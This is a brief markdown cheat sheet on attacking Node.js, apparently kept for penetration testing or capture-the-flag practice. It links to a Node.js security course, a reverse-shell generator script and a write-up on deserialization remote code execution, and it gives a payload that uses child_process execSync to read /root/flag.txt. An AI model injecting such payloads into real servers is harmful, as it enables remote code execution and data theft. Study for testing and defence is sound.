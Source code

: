 # NodeJS

[READ](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shell
[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## Deserialization

[deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```